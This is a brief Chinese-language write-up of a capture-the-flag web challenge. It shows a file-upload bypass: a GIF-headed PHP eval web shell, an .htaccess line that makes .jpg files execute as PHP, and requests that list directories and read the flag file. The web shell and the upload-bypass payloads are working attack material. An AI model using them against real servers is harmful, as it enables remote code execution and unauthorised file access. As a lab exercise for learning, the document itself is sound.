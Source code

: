 ![[Pasted image 20221107195420.png]]

先随便传个png上去试试

![[Pasted image 20221107200358.png]]

经过一番尝试发现接受jpeg类型

![[Pasted image 20221107200345.png]]

改为html风格发现上传成功

![[Pasted image 20221107200720.png]]
```html
GIF98a
<script language='php'>eval($_GET['cmd']);</script>
```
尝试上传.htaccess，将对jpg文件的访问方式修改

![[Pasted image 20221107201553.png]]
```
AddType application/x-httpd-php .jpg
```
访问
```php
/upload/xxx/tmp.jpg?cmd=phpinfo();
```
![[Pasted image 20221107201905.png]]

成功上传
由于`system`被ban，通过`scandir`来查看目录
```php
/?cmd=var_dump(scandir('/'));
```
![[Pasted image 20221107202258.png]]

最后用`file_get_contents`读取
```php
/?cmd=var_dump(file_get_contents('/flag'));
```
![[Pasted image 20221107202336.png]]

学到的知识用上了，开心QwQ

#Web #文件上传 #RCE #PHP #bypass 